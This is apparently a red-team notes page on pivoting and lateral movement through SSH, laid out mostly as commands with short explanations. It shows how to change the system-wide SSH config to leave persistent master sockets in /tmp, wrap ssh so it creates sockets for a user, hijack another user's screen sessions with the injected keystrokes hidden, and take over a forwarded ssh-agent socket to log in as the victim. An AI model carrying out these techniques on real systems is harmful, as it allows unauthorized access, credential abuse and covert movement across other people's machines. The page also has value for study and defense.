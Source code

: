 # Pivoting using SSH sessions

Pivoting through SSH

- [ControlMaster via SSH client config](#ctrlm_clientconfig)

- [ControlMaster via shell functions](#ctrlm_shellfunction)

- [Hijacking `screen` sessions](#screen_hijacking)

- [SSH socket hijacking](#socket_hijacking)

## <a name="ctrlm_clientconfig"></a>ControlMaster via SSH client config

Alter the system-wide ssh config:

    Host *
    ControlPath /tmp/%r@%h:%p
    ControlMaster auto
    ControlPersist yes

All new SSH sessions will create persistent brokering maste r sockets. in `/tmp`. These sockets can be used to create further sessions, without credentials, even after the original user exits their session.

    ssh -S /tmp/pwnduser@10.0.1.51:22 %h

This can also be used to create a dynamic tunnel inside an existing master socket.

    ssh -O forward -D 9090 -S /tmp/pwnduser@10.0.1.51:22 %h

The master socket needs to be exited explicitly:

    ssh -O exit -S /tmp/pwnduser@10.0.1.51:22 %h

## <a name="ctrlm_shellfunction"></a>ControlMaster via shell functions

Depending on `$PATH`, you should be able to use this wrapper function to create sockets on behalf of the user.

```bash
ssh () 
{ 
    /usr/bin/ssh -o "ControlMaster=auto" -o "ControlPath=/tmp/%r@%h:%p" -o "ControlPersist=yes" "$@";
}
```

## <a name="screen_hijacking"></a>Hijacking screen sessions

Check `/var/run/screen` or run `screen -r`. You can then `su - pwnduser` but you can't directly connect to the screen (can't open terminal error).

To bypass this, use the `script` binary. Example:

    root@box:~# su - pwnduser
    pwnduser@box:~$ screen -ls
    There is a screen on:
           17228.ssh_session (20/10/2019 16:54:22) (detached)
    1 Socket in /var/run/screen/S-pwnduser
    
    pwnduser@box:~$ script /dev/null
    Script started, file is /dev/null
    pwnduser@box:~$ screen -x 17228.ssh_session

We can then insert a tunnel on the fly by making use of the SSH 'escape subshell'. In an ssh session type `~C`. Then `-D:<port>` to add a dynamic forward on the fly. (You can also type `help` here to see what's possible)

This will not work inside `screen` ssh sessions however, as your own `ssh` session will catch the `~C`. So we will need to use the `-X stuff` from outside of the screen session.

    su - pwnduser
    pwnduser@box:~$ screen -S 17228.ssh_session -p 0 -X stuff $'~C'
    pwnduser@box:~$ screen -S 17228.ssh_session -p 0 -X stuff $'-D:9090\n\n'

Stuff'd text is visible inside a session's scrollback. Prevent this by changing scrollback to 0 lines, clearing the screen then setting it back.

    screen -S 18323.my_ssh_session -X scrollback 0
    screen -S 18323.my_ssh_session -p 0 -X stuff $'~C'
    screen -S 18323.my_ssh_session -p 0 -X stuff $'-D:9090\nclear\n'
    screen -S 18323.my_ssh_session -X scrollback 15000

Then, the last piece of the puzzle is to create a local port on the intermediary machine we used so we can connect to it externally.

    root@box:~# (insert ~C)
    ssh> -L7070:localhost:9090
    Forwarding port.
    
    root@box:~# ~#
    The following connections are open:
    (...etc, this should have your forward in it)

## <a name="socket_hijacking"></a>Socket hijacking

When Forward-Agent is used

Find the SSHd process of the victim

    ps aux | grep sshd

Looks for the SSH_AUTH_SOCK on victim's environment variables

    grep SSH_AUTH_SOCK /proc/<pid>/environ

Hijack's victim's ssh-agent socket

    SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l

Login to remote systems as the victim

    ssh remote_system -l victim



Sources:

- [0xthem](http://0xthem.blogspot.com/2015/03/hijacking-ssh-to-inject-port-forwards.html)
- [xorl](https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/)
